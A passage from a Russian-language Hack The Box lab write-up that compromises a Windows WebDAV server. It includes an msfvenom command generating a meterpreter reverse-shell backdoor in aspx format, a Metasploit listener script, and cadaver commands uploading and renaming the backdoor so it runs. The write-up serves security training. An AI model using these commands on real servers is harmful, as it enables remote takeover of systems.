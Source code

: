 * Например, если ты точно знаешь, где лежит то, что тебе нужно, и что для доступа хватит базовых привилегий в системе, то можно ограничиться простым [веб-шеллом](https://github.com/tennc/webshell/blob/master/fuzzdb-webshell/asp/cmd.aspx), взаимодействовать с которым можно прямо из браузера.
* Если же тебе нужно внимательнее осмотреться на хосте, тогда твоим выбором может стать тот же самый веб-шелл в связке [с пейлоадом](https://github.com/swisskyrepo/PayloadsAllTheThings/blob/master/Methodology%20and%20Resources/Reverse%20Shell%20Cheatsheet.md#powershell) на PowerShell, что в конечном итоге дарует тебе реверс-шелл. Далее можно будет проанализировать вывод `systeminfo` с помощью какого-нибудь локального [suggester](https://github.com/AonCyberLabs/Windows-Exploit-Suggester)-а для Windows.
* Ну а если твоя цель — полный захват контроля над тачкой с эскалацией привилегий до админа, тогда meterpreter — твой путь.

Конечно, мы выберем последний вариант.

### Генерация пейлоада

С помощью `msfvenom` создадим бекдор с полезной нагрузкой meterpreter для 32-битной версии Windows в формате `aspx`.

```
root@kali:~# msfvenom -p windows/meterpreter/reverse_tcp -a x86 --platform win LHOST=10.10.14.10 LPORT=31337 -f aspx > meterpreter/m.aspx
```

Далее я создам скрипт автозапуска слушателя Metasploit, чтобы не вводить команды каждый раз вручную в консоли MSF.

```
# meterpreter/l.rc
use exploit/multi/handler
set PAYLOAD windows/meterpreter/reverse_tcp
set LHOST tun0
set LPORT 31337
set ExitOnSession false
exploit -j -z
```

### cadaver

В Kali есть инструмент с жутковатым названием cadaver (то есть «труп») — это консольный WebDAV-клиент, который облегчает взаимодействие с WebDAV из командной строки.

Я копирую сгенерированный в `msfvenom` бекдор в текстовый файл `m.txt`, загружу его на сервер и переименую в `m.aspx` в интерактивной сессии `cadaver`.

```
root@kali:~# cp meterpreter/m.aspx m.txt
root@kali:~# cadaver  http://10.10.10.15
dav:/> put m.txt
dav:/> move m.txt m.aspx
```

[![cadaver.png]({{ "/img/htb/boxes/grandparents/cadaver.png" | relative_url }})]({{ "/img/htb/boxes/grandparents/cadaver.png" | relative_url }})
{: .center-image}

